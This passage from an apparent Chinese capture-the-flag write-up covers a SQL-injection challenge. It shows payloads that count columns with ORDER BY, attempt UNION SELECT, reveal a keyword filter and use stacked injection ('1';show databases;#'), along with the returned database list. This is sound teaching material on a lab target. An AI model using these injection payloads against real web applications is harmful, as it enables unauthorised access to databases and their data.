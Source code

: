    后输入 `2` `114514` 发现均返回了对应的 数据 此处推断 sql查询所有条目到的均会返回

   

2. 猜解SQL查询语句中的字段数

   输入`1' order by 1 #` 成功回显

   到 `1' order by 3 #` 回显失败

   可知字段为 2 

   

3. 显示字段

   输入`1′ union select 1,2 #` 回显一个正则过滤规则

   ```javascript
   return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
   ```

   过滤了 select，update，delete，drop，insert，where 和 点

   过滤了这么多词，是不是有堆叠注入？尝试堆叠注入 [^2]

4. 查询数据库

   输入`1';show databases;#` 成功回显

   ```javascript
   array(2) {
     [0]=>
     string(1) "1"
     [1]=>
     string(7) "hahahah"
   }
   
   array(1) {
     [0]=>
     string(11) "ctftraining"
   }
   
   array(1) {
     [0]=>
     string(18) "information_schema"
   }
   
   array(1) {
     [0]=>
     string(5) "mysql"
   }
   
   array(1) {
     [0]=>
     string(18) "performance_schema"
   }
   
   array(1) {
     [0]=>
     string(9) "supersqli"
   }
   
   array(1) {
     [0]=>
     string(4) "test"
   }
   
   
   ```


[^1]: 此处 # 作用是注释 忽略 # 之后的语句 [参考资料](https://blog.csdn.net/github_36032947/article/details/78442189)
[^2]: 这句话的逻辑 不是特别清楚 网上搜了很多 但是都是这一道题目的 没有讲具体的逻辑 目前推断是 能堆叠 防止你乱搞 所以才禁止了这些关键词 否则直接禁止了堆叠注入 就根本不用禁止了 而且此时是联合注入